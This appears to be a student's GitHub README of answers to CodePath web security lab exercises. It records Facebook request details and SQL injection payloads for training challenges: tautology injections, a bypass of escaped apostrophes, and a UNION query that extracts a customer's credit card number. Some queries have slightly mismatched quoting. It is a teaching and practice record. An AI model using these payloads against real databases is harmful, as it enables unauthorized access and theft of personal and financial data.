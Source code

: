 # Web-Securities-Labs
codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```
